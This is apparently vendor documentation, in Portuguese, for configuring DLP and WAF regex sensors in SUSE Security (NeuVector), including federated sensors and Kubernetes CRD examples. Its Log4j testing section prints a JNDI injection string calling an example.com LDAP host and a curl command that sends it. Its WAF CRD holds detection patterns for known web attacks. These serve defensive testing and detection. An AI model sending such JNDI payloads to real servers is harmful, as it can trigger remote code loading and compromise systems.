


Sensores DLP e WAF
Prevenção de Perda de Dados (DLP) e Firewall de Aplicações Web (WAF)
DLP e WAF utilizam a Inspeção Profunda de Pacotes (DPI) de SUSE® Security para inspecionar as cargas de rede das conexões em busca de violações de dados sensíveis. SUSE® Security utiliza um mecanismo baseado em expressões regulares (regex) para realizar funções de filtragem de pacotes. Cuidado extremo deve ser tomado ao aplicar sensores ao tráfego de contêineres, pois a função de filtragem gera uma sobrecarga adicional no sistema e pode impactar o desempenho do host.
A filtragem DLP e WAF é aplicada de maneira diferente dependendo do(s) grupo(s) ao qual são aplicados. Em geral, a filtragem WAF é aplicada a conexões de entrada e saída, exceto para tráfego interno, onde apenas a filtragem de entrada é aplicada. A filtragem DLP se aplica a conexões de entrada e saída de um 'domínio de segurança', mas não a quaisquer conexões internas dentro de um domínio de segurança. Veja as descrições detalhadas abaixo.
Configurar DLP ou WAF é um processo de duas etapas:
-
Defina e teste o(s) sensor(es), que é o conjunto de expressões regulares usadas para corresponder ao cabeçalho, URL ou pacote inteiro.
-
Aplique o sensor desejado a um Grupo, na tela de Grupos da Política →.
Sensores WAF
Sensores WAF representam a inspeção do tráfego de rede para/de um pod/contêiner. Esses sensores podem ser aplicados a qualquer grupo aplicável, mesmo grupos personalizados (por exemplo, grupos de namespace). O tráfego de entrada para TODOS os contêineres dentro do grupo será inspecionado para detecção de regras WAF. Além disso, quaisquer conexões de saída (egress) externas ao cluster serão inspecionadas.
Isso significa que, embora esse recurso seja chamado de WAF, ele é útil e aplicável a qualquer tráfego de rede, não apenas ao tráfego de aplicações web, e, portanto, oferece proteções mais amplas do que simples WAFs. Por exemplo, a segurança da API pode ser aplicada em conexões de saída para um serviço de API externo, permitindo apenas solicitações GET e bloqueando POSTs.
Observe também que, embora semelhante ao DLP, a inspeção é para o tráfego de entrada para CADA pod/contêiner dentro do grupo, enquanto o DLP aplica a inspeção ao tráfego de entrada e saída do grupo apenas (ou seja, a fronteira de segurança), não ao tráfego interno no grupo (por exemplo, não leste-oeste dentro dos contêineres de um grupo).

Sensores DLP
Os Sensores DLP são os padrões usados para inspecionar o tráfego. Sensores incorporados, como cartão de crédito e número de seguro social dos EUA, têm expressões regulares predefinidas. Você pode adicionar sensores personalizados definindo padrões regex a serem usados nesse sensor. Observe que, embora semelhante ao WAF, o DLP aplica a inspeção ao tráfego de entrada e saída do grupo apenas (ou seja, a fronteira de segurança), não ao tráfego interno no grupo (por exemplo, não leste-oeste dentro dos contêineres de um grupo). A inspeção WAF é apenas para o tráfego de entrada para TODOS os pods/contêineres dentro do grupo.

Configurando sensores DLP e WAF
A configuração dos sensores DLP e WAF é semelhante. Crie um Nome de sensor e qualquer comentário, em seguida, selecione o sensor para Adicionar ou Editar as regras para esse sensor. Os campos principais incluem:
-
Ter/Não Ter. Determina se a correspondência requer que o padrão seja encontrado (Ter) para que a ação seja tomada (por exemplo, Negar), ou apenas se o padrão não existir (Não Ter) a ação deve ser tomada. Recomenda-se que o operador "Não Ter" seja combinado na regra com um padrão usando o operador "Ter", pois um único padrão com o operador "Não Ter" não será eficaz.
-
Padrão. Esta é a expressão regular usada para determinar uma correspondência. Você pode testar seu regex contra dados de exemplo para garantir resultados corretos de Ter/Não Ter.
-
Contexto. Onde procurar a correspondência de padrão. Escolha o pacote para a inspeção mais ampla de toda a conexão de rede, ou restrinja a inspeção apenas à URL, cabeçalho ou corpo.

Cada regra de DLP/WAF suporta múltiplos padrões (máx. 16 padrões são permitidos por regra). Múltiplos padrões, assim como definir o contexto da regra, também podem ajudar a reduzir falsos positivos.
Exemplo de uma regra de DLP com um padrão de Ter/Não Ter: Ter:
\b3[47]\d{2}([ -]?)(?!(\d)\2{5}|123456|234567|345678)\d{6}\1(?!(\d)\3{4}|12345|56789)\d{5}\bIsso produz uma correspondência de falso positivo para "istio_agent_go_gc_duration_seconds_sum 22.378386247999998":
docker exec -ti httpclient sh
/ # curl -d "{\"context\": \"istio_agent_go_gc_duration_seconds_sum 22.378386247999998\"}" 172.17.0.5:8080/
Hello, world!Adicionar um padrão de Não Ter remove o falso positivo:
istio\_(\w){5}Sensores devem ser aplicados a um Grupo para se tornarem eficazes.
Configurando Sensores DLP e WAF Federados
Este é o processo geral para configurar um sensor DLP ou WAF federado:
-
Defina e teste o(s) sensor(es) DLP/WAF federados, que é o conjunto de expressões regulares usadas para corresponder ao cabeçalho, URL ou pacote inteiro na aba Cluster Primário → Política Federada → Sensores DLP ou Sensores WAF.
-
Aplique o sensor desejado a um Grupo federado personalizado na aba Política Federada → Grupos.
-
Verifique se o(s) sensor(es) DLP/WAF federado(s) estão sincronizados com o cluster Gerenciado e funcionam como esperado.
Exemplo
Defina um ou mais sensores DLP/WAF federados em um cluster Primário e, em seguida, aplique-os a um Grupo federado personalizado, e depois verifique se esses sensores estão aplicados a todos os clusters Gerenciados.
Etapas:
-
Defina o(s) sensor(es) DLP/WAF federados no cluster Primário na aba relevante Sensores DLP ou Sensores WAF:


-
Aplique o(s) sensor(es) DLP/WAF federados a um Grupo federado personalizado na aba Política Federada → Grupos:

-
Verifique se o(s) sensor(es) federado(s) de DLP/WAF estão sincronizados com os clusters gerenciados:


-
Nos clusters gerenciados, os contêineres enviam tráfego que corresponde ao padrão do(s) sensor(es) federado(s) de DLP/WAF:

-
Após o Passo 4, as notificações de "Eventos de Segurança" de DLP/WAF são geradas:

Aplicando Sensores de DLP/WAF a Grupos de Contêineres
Para ativar um sensor de DLP ou WAF, vá para Política → Grupos para selecionar o grupo desejado. Ative DLP/WAF para o Grupo e adicione o(s) sensor(es).
Recomenda-se que sensores de DLP sejam aplicados na borda de uma zona de segurança, definida por um Grupo, para minimizar o impacto da inspeção de DLP. Se necessário, defina um Grupo Personalizado que represente tal zona de segurança. Por exemplo, se o Grupo selecionado for o grupo reservado 'containers', e sensores de DLP forem adicionados ao grupo, apenas o tráfego que entra ou sai do cluster e não entre todos os contêineres será inspecionado. Ou se for um grupo personalizado definido como 'namespace=demo', então apenas o tráfego que entra ou sai do namespace demo será inspecionado, e não qualquer tráfego entre contêineres dentro do namespace.
Recomenda-se que sensores de WAF sejam aplicados apenas a Grupos onde conexões de entrada (por exemplo, ingress) são esperadas, a menos que o(s) sensor(es) se apliquem a Aplicativos internos específicos (esperando tráfego leste-oeste).

Resumo do Comportamento de DLP/WAF
-
A correspondência de padrões de DLP não ocorre para o tráfego que passa entre cargas de trabalho que pertencem ao mesmo grupo de DLP.
-
Qualquer tráfego que entra e sai de um grupo de DLP é escaneado em busca de correspondências de padrões.
-
O tráfego de entrada e saída do cluster é escaneado em busca de padrões se a carga de trabalho tiver permissão para fazer conexões de entrada/saída.
-
Múltiplos padrões por regra de DLP/WAF (máx. 16 padrões são permitidos por regra).
-
Múltiplos alertas são gerados para um único pacote se ele corresponder a várias regras.
-
Por razões de desempenho, apenas as primeiras 16 regras são alertadas e correspondidas, mesmo que o pacote corresponda a mais de 16 regras.
-
Os alertas são agregados e relatados juntos se a mesma regra corresponder e gerar alertas várias vezes dentro de 2 segundos.
-
PCRE é usado para correspondência de padrões.
-
A biblioteca Hyper scan é usada para correspondência de padrões eficiente, escalável e de alto desempenho.
Ações DLP/WAF nos Modos Descobrir, Monitorar, Proteger
Ao adicionar sensores a grupos, a ação DLP/WAF pode ser definida como Alerta ou Negar, com o seguinte comportamento se houver uma correspondência:
-
Modo Descoberta. A ação será sempre alertar, independentemente da configuração Alerta/Negar.
-
Modo Monitoramento. A ação será sempre alertar, independentemente da configuração Alerta/Negar.
-
Modo Proteção. A ação será alertar se definida como Alerta, ou bloquear se definida como Negar.
Padrão de Detecção Log4j WAF
A regra semelhante ao WAF para detectar a tentativa de exploração do Log4j está abaixo. Por favor, note que isso deve ser aplicado apenas a Grupos que esperam conexões web de entrada.
\$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*Também observe que existem maneiras que os atacantes podem contornar a detecção por tais regras.
Testando a Detecção WAF do Log4j
Em uma tentativa de exploração, o atacante construirá uma inserção inicial jndi: e a incluirá no cabeçalho HTTP User-Agent:
User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}Usar curl para POST dados para o servidor (contêiner) pode ajudar a testar a regra WAF:
curl -X POST -k -H "X-Auth-Token: $_TOKEN_" -H "Content-Type: application/json" -H "User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" -d '$SOME_DATA' "http://$SOME_IP_:$PORT"Configuração e Teste do WAF
O arquivo para download abaixo fornece um script não suportado para criar sensores WAF via CRD e executar testes comuns de regras WAF contra esses sensores. O README fornece instruções para executá-lo.


Gerenciando Regras WAF Usando Importação/Exportação ou CRDs
É possível importar ou exportar regras WAF a partir da tela WAF. Isso pode ser útil para propagar regras para outros clusters, fazer um backup ou prepará-las para aplicação como um CRD.
Para criar sensores WAF ou aplicar um sensor WAF a um grupo usando CRDs, certifique-se de que a vinculação de função de cluster NVWafSecurityRule apropriada seja criada.
Exemplo de CRD de sensor WAF
Clique aqui para ver os detalhes
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
kind: NvWafSecurityRule
metadata:
name: sensor.execution
spec:
sensor:
comment: arbitrary command execution attempt
name: sensor.execution
rules:
- name: Alchemy
patterns:
- context: url
key: pattern
op: regex
value: \/NUL\/.*\.\.\/\.\.\/
- name: Log4j
patterns:
- context: header
key: pattern
op: regex
value: \$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
- name: formmail
patterns:
- context: url
key: pattern
op: regex
value: \/formmail
- context: packet
key: pattern
op: regex
value: \x0a
- name: CCBill
patterns:
- context: url
key: pattern
op: regex
value: \/whereami\.cgi?.*g=
- name: DotNetNuke
patterns:
- context: url
key: pattern
op: regex
value: \/Install\/InstallWizard.aspx.*executeinstall
- name: HNAP
patterns:
- context: url
key: pattern
op: regex
value: \/tmUnblock.cgi
- context: header
key: pattern
op: regex
value: 'Authorization: Basic\s*YWRtaW46'
- name: Magento
patterns:
- context: url
key: pattern
op: regex
value: \/Adminhtml_.*forwarded=
- name: b2
patterns:
- context: url
key: pattern
op: regex
value: \/b2\/b2-include\/.*b2inc.*http\x3a\/\/
- name: bat
patterns:
- context: url
key: pattern
op: regex
value: x2ebat\x22.*?\x26
- name: eshop.pl
patterns:
- context: url
key: pattern
op: regex
value: \/eshop\.pl?.*seite=\x3b
- name: whois_raw.cgi
patterns:
- context: url
key: pattern
op: regex
value: \/whois_raw\.cgi?
- context: packet
key: pattern
op: regex
value: \x0a
kind: List
metadata: nullExemplo de CRD para aplicar um sensor WAF a um Grupo
Clique aqui para ver os detalhes
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
kind: NvSecurityRule
metadata:
name: demo-group
namespace: demo
spec:
egress: []
file: []
ingress: []
process: []
process_profile:
baseline: default
target:
policymode: N/A
selector:
comment: ""
criteria:
- key: domain
op: =
value: demo
- key: service
op: =
value: nginx-pod.demo
- key: service
op: =
value: node-pod.demo
name: demo-group
original_name: ""
waf:
settings:
- action: deny
name: sensor.cross
- action: deny
name: sensor.execution
- action: deny
name: sensor.injection
- action: deny
name: sensor.traversal
- action: deny
name: wafsensor-1
status: true
kind: List
metadata: nullVeja a seção CRD para mais detalhes sobre como trabalhar com CRDs.